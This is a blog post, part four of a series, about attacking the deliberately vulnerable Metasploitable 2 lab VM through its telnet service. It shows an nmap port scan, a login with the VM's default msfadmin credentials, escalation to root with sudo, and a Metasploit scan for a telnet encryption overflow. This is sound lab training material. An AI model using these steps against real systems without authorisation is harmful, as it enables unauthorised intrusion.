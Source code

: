 <!--hacking, metasploit, telnet-->
# Back to basics

This is the fourth part of my series about hacking a Metasplitable VM. You can find the previous posts here:

* [Part one](http://filimon-danopoulos.github.io/posts/2014-11-12_Metasploitable-2-part-one.html)
* [Part two](http://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-two.html)
* [Part three](http://filimon-danopoulos.github.io/posts/2014-11-17_Metasploitable-2-part-three.html)

In this post I will continue down the list of services that the `nmap` scan I did in part one generated:

    PORT      STATE SERVICE     VERSION
    21/tcp    open  ftp         vsftpd 2.3.4
    22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    23/tcp    open  telnet      Linux telnetd
    25/tcp    open  smtp        Postfix smtpd
    53/tcp    open  domain      ISC BIND 9.4.2
    80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
    111/tcp   open  rpcbind     2 (RPC #100000)
    139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    512/tcp   open  exec        netkit-rsh rexecd
    513/tcp   open  login?
    514/tcp   open  shell?
    1099/tcp  open  rmiregistry GNU Classpath grmiregistry
    1524/tcp  open  shell       Metasploitable root shell
    2049/tcp  open  nfs         2-4 (RPC #100003)
    2121/tcp  open  ftp         ProFTPD 1.3.1
    3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
    3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
    5900/tcp  open  vnc         VNC (protocol 3.3)
    6000/tcp  open  X11         (access denied)
    6667/tcp  open  irc         Unreal ircd
    6697/tcp  open  irc         Unreal ircd
    8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
    8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
    35308/tcp open  status      1 (RPC #100024)
    47882/tcp open  nlockmgr    1-4 (RPC #100021)
    50137/tcp open  unknown
    54408/tcp open  mountd      1-3 (RPC #100005)
    
The FTP and SSH services running on port 21 and 22 respectively have both been compromised. 
So this time I will focus on telnet running on port 23.

## The target

Telnet, where to begin... Generally, telnet is a good indicator that something is misconfigured. There are modern
alternatives that almost always are a better fit, SSH for example.
The easiest thing to do as far as telnet is concerned is just connect to it with the `telnet` command:

    # telnet 192.168.56.103
    Trying 192.168.56.103...
    Connected to 192.168.56.103.
    Escape character is '^]'.
                    _                  _       _ _        _     _      ____  
     _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
    | '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
    | | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
    |_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                                |_|                                          


    Warning: Never expose this VM to an untrusted network!

    Contact: msfdev[at]metasploit.com

    Login with msfadmin/msfadmin to get started


    metasploitable login:
    
OK. That was easy, it actually straight out tells me a username password combo to try... Let's see what happens if I use the
supplied credentials.

    metasploitable login: msfadmin
    Password: 
    Last login: Sun Nov  9 05:31:34 EST 2014 on pts/1
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    No mail.
    msfadmin@metasploitable:~$
    
So that was easy, might this user have `sudo` rights?
    
    msfadmin@metasploitable:~$ sudo su
    [sudo] password for msfadmin: 
    root@metasploitable:/home/msfadmin# whoami
    root

Well there you go, I have root.

## Alternatives

Since this makes for a pretty boring post if I don't do anything more than this let's see if there is something in Metasploit, 
so I fire up `msfconsole`: 

    msf > search telnetd

    Matching Modules
    ================

     Name                                               Rank       Description
     ----                                               ----       -----------
     auxiliary/admin/http/dlink_dir_300_600_exec_noauth normal     D-Link DIR-600 / DIR-300 Unauthenticated Remote Command Execution
     auxiliary/scanner/telnet/telnet_encrypt_overflow   normal     Telnet Service Encyption Key ID Overflow Detection
     exploit/linux/http/dlink_diagnostic_exec_noauth    excellent  D-Link DIR-645 / DIR-815 diagnostic.php Command Execution
     exploit/linux/telnet/telnet_encrypt_keyid          great      Linux BSD-derived Telnet Service Encryption Key ID Buffer Overflow
     exploit/solaris/telnet/fuser                       excellent  Sun Solaris Telnet Remote Authentication Bypass Vulnerability
     exploit/solaris/telnet/ttyprompt                   excellent  Solaris in.telnetd TTYPROMPT Buffer Overflow

There seems to exist some kind of encryption overflow `exploit/linux/telnet/telnet_encrypt_keyid` (output shortened): 
    
    msf>  info  exploit/linux/telnet/telnet_encrypt_keyid 

    Name: Linux BSD-derived Telnet Service Encryption Key ID Buffer Overflow
    Module: exploit/linux/telnet/telnet_encrypt_keyid
    Platform: Linux
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Great
    Disclosed: 2011-12-23

    Available targets:
      Id  Name
      --  ----
      0   Automatic
      1   Red Hat Enterprise Linux 3 (krb5-telnet)

    Payload information:
      Space: 200
      Avoid: 1 characters

    Description:
      This module exploits a buffer overflow in the encryption option 
      handler of the Linux BSD-derived telnet service (inetutils or 
      krb5-telnet). Most Linux distributions use NetKit-derived telnet 
      daemons, so this flaw only applies to a small subset of Linux 
      systems running telnetd.

    References:
      http://cvedetails.com/cve/2011-4862/
      http://www.osvdb.org/78020
      http://www.securityfocus.com/bid/51182
      http://www.exploit-db.com/exploits/18280
      
This does not sound very promising but let's run the scanner `auxiliary/scanner/telnet/telnet_encrypt_overflow`:

    msf > use auxiliary/scanner/telnet/telnet_encrypt_overflow
    msf auxiliary(telnet_encrypt_overflow) > show options

    Module options (auxiliary/scanner/telnet/telnet_encrypt_overflow):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       PASSWORD                   no        The password for the specified username
       RHOSTS                     yes       The target address range or CIDR identifier
       RPORT     23               yes       The target port
       THREADS   1                yes       The number of concurrent threads
       TIMEOUT   30               yes       Timeout for the Telnet probe
       USERNAME                   no        The username to authenticate as

    msf auxiliary(telnet_encrypt_overflow) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(telnet_encrypt_overflow) > run

    [*] 192.168.56.103:23 Does not support encryption: *snipp*
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

The target is not vulnerable this attack. It doesn't really matter at this point, but it's good to know that this issue exists,
for future reference.

## The point

OK, in order for this post to have even the slightest amount of substance let's see what we can take away from this. 
If we have a service that is known to be configured improperly just try to connect to it and see that happens. In this case the target 
more or less hacked it self. Next time I will try to do some thing more interesting than this.
